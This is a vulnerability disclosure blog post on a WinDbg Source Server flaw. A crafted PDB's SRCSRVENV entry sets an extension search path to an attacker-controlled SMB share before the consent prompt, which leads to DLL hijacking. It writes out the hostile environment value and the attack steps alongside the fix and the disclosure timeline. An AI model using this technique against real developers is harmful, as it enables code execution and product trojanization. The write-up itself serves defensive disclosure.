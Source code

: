 ```yaml
---
title: Exploiting WinDbg's Source Indexing
author: alexander
date: 2023-08-23 00:34:00 +0800
categories: [Vulnerability, MS]
tags: [srcsrv, rce]
image:
  path: /assets/img/1/ppc.png
  alt: SRCSRV Fail

---
```


This attack surface was actually noticed by me back in early days of windows development, somewhat about year 2016. While doing enterprise development, you inevitably need to respond if your product crashes at the end user side, and typical way for windows development is automatic collection of the crash dumps from end user to your company development infrastructure. The implementation of this process may vary, but usually it includes following steps:
1. Generation of crash dump at user side
2. Sending the crash dump to some dump collection server
3. Automatic triage
4. Notify developers about new bug
5. Developer doing manual triage

This process is already very complex and prone to vulnerabilities, but today we will focus on stage #5.

### Risk
Attacks on actual developers are highly dangerous, since this kind of staff usually has local admin rights, as well as access to large portion of source code, code signing certificates, and documentation, including write access to a part of product code. The impact may vary from information leaks to actual trojanization of company products, which will cost enormous sum for a company.


### Vulnerability summary
The vulnerability that we will describe today allows remote attackers to execute arbitrary code on affected installations of Microsoft WinDbg with Source Server client enabled. Access from target host to attacker-supplied SMB-share is required to exploit this vulnerability remotely. The specific flaw exists within the implementation of the SRCSRV Stream processing of pdb file by srcsrv.dll. The issue results from the improper usage of SRCSRVENV variable in SRCSRV stream of pdb file, which allows attacker to set arbitrary environment variable in current WinDbg instance. This behaviour may be abused to trigger DLL hijacking during DbgEngine reinitialization, and result in arbitrary DLL execution, including DLLs accessible by UNC paths, e.g. from an SMB server.

#### Description

**Products affected**

- WinDbg 10.0.19041.685
- Microsoft Source Server (srcsrv.dll) 10.0.19041.685

**Classification**

- Security feature bypass
- Local privilege elevation
- Remote code execution
- Code injection

### Details

WinDbg has feature called Source Indexing which allows developers to embed instructions to WinDbg on how to download source code for specific build of a PE file. These instructions are presented within a form of "ini" file, which can be embedded to a "srcsrv" stream of a PDB file, which is generated by MSVC compiler alongside to executable file, to provide additional debug information for the application. ![Srcsrv stream content example](/assets/img/1/clip_image001.png)

This ini files contain the following main keys:

- SRCSRVCMD - specifies command line template which actually downloads source code, e.g. "tf.exe get …"
- SRCSRVENV - specifies environment variables for SRCSRVCMD in form of "KEY=VALUE"

To mitigate execution of malicious command lines, default configuration of SrcSrv requires user consent before execution, which allows user to decide if the command is safe or not. User also has option (and desire) to turn off those consents permanently:
![Source server consent dialog](/assets/img/1/clip_image003.png)

While having this legacy security measure in place, Srcsrv.dll uses SRCSRVENV value to set environment variable in current WinDbg instance **before** the consent dialog is shown, which renders this security measure ineffective in this scenario.

![Vulnerable code](/assets/img/1/clip_image002.png)


### Remote exploitation scenario
Having all this information, let's plan the remote attack scenario.
Imagine that company X uses dump servers to collect crashdumps from customers for postmortem debugging of their software. Malicious actors craft a PDB file which triggers this vulnerability: they embed a SRCSRV stream to PDB with SRCSRVENV set to
`_NT_DEBUGGER_EXTENSION_PATH=\\192.168.1.2\box\1337\`

![Example setting](/assets/img/1/clip_image004.png)

This specific environment variable is used by Windbg engine as a search path for extension DLLs, which will be explained later.

They also craft a minidump file with a PE file in memory containing forged CV_INFO_PDB70 structure, and a PDB file which triggers this vulnerability. This structure is a standard way to point WinDbg to a location of a PDB file for a PE.

![Default value of PDB path in CV_INFO_PDB70 structure](/assets/img/1/clip_image005.png)

 In this case, attacker sets PdbFileName to a UNC path to SMB share, which contains a .pdb file with a crafted SRCSRV stream. Employee of Company X receives minidump file for crashdump analysis, and opens it in WinDbg, which loads a .pdb file from the SMB share. WinDbg identifies SRCSRV stream from PDB, and passes SRCSRV stream contents to srcsrv.dll SrcSrvExecTokenA function. This function reads SRCSRVENV variable and sets environment variable \_NT_DEBUGGER_EXTENSION_PATH. At this point the vulnerability is triggered. Later it displays consent window, but no matter of user consent, the WinDbg instance has spoiled process environment. After dealing with this crafted minidump, employee of Company X opens any minidump or executable binary (in the current WinDbg instance), and DbgEngine will load extension DLLs from the attacker-supplied SMB share.

![WinDbg loads attacker-supplied DLL](/assets/img/1/clip_image006.png)

Current attack scenario is based on \_NT_DEBUGGER_EXTENSION_PATH variable modification, which is basically a path to WinDbg debugger extensions like ext.dll/ntsdexts.dll/etc. They are being loaded at DbgEngine initialization, so the DLL hijacking will occur if user loads any other dump in current WinDbg instance.

### Root cause and remediation

SRCSRVENV is meant to provide environment variables to SRCSRVCMD command execution, so it must be specified e.g. on lpEnvironment argument of CreateProcess call, not for context of calling process using SetEnvironmentVariable.

**Fix available**

Ensure to use SDK version 10.0.22621.0 and higher.

### Supporting materials & references

Source indexing description: https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/source-indexing

**Communication history**

- 22 march 2021 – Report submitted to Microsoft
- 22 march 2021 – Report acknowledged by Microsoft
- 2 april 2021 – Problem confirmed by Microsoft
- 7 april 2021 – Bounty was awarded
- 17 july 2021 – Fix in testing
- 27 july 2021 – Plan to release fix in October SDK
- 9 october 2021 – Temporary CVE was assigned CVE-2021-X41358
- 13 october 2021 – MS decided to refuse CVE-2021-41358 registration
- 23 august 2023 – This article is published

